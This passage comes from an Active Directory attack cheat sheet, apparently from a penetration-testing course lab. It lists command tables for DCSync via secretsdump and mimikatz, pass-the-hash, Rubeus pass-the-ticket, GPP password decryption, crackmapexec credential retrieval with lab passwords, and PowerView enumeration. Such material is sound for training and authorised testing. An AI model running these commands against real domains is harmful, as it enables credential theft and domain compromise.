 | `klist`                                                                                                                                                            | `krb5-user` command used to view the contents of the `ccache` file. Performed from a Linux-based host.                                                                                      |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$`                  | Used to submit TGS requests using `getnthash.py` from a Linux-based host.                                                                                                                   |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | Impacket tool used to extract hashes from `NTDS.dit` using a `DCSync attack` and a captured hash (`-hashes`). Performed from a Linux-based host.                                            |
| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt`                                                                                            | Uses Rubeus to request a TGT and perform a `pass-the-ticket attack` using the machine account (`/user:ACADEMY-EA-DC01$`) of a Windows target. Performed from a Windows-based host.          |
| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt`                                                                                                            | Performs a DCSync attack using `Mimikatz`. Performed from a Windows-based host.                                                                                                             |

## Miscellaneous Misconfigurations

| Command                                                                                       | Description                                                                                                                                             |
| --------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Import-Module .\SecurityAssessment.ps1`                                                      | Used to import the module `Security Assessment.ps1`. Performed from a Windows-based host.                                                               |
| `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`                           | SecurityAssessment.ps1 based tool used to enumerate a Windows target for `MS-PRN Printer bug`. Performed from a Windows-based host.                     |
| `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`                                       | Used to resolve all records in a DNS zone over `LDAP` from a Linux-based host.                                                                          |
| `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r`                                    | Used to resolve unknown records in a DNS zone by performing an `A query` (`-r`) from a Linux-based host.                                                |
| `Get-DomainUser * \| Select-Object samaccountname,description`                                | PowerView tool used to display the description field of select objects (`Select-Object`) on a target Windows domain from a Windows-based host.          |
| `Get-DomainUser -UACFilter PASSWD_NOTREQD \| Select-Object samaccountname,useraccountcontrol` | PowerView tool used to check for the `PASSWD_NOTREQD` setting of select objects (`Select-Object`) on a target Windows domain from a Windows-based host. |
| `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`                                     | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host.    |

## Group Policy Enumeration & Attacks

| Command                                                               | Description                                                                                                                                                             |
| --------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`             | Tool used to decrypt a captured `group policy preference password` from a Linux-based host.                                                                             |
| `crackmapexec smb -L \| grep gpp`                                     | Locates and retrieves a `group policy preference password` using `CrackMapExec`, the filters the output using `grep`. Peformed from a Linux-based host.                 |
| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the `SYSVOL` share of a Windows target using `CrackMapExec` from a Linux-based host.                                    |
| `Get-DomainGPO \| select displayname`                                 | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host.                                                                        |
| `Get-GPO -All \| Select DisplayName`                                  | PowerShell cmd-let used to enumerate GPO names. Performed from a Windows-based host.                                                                                    |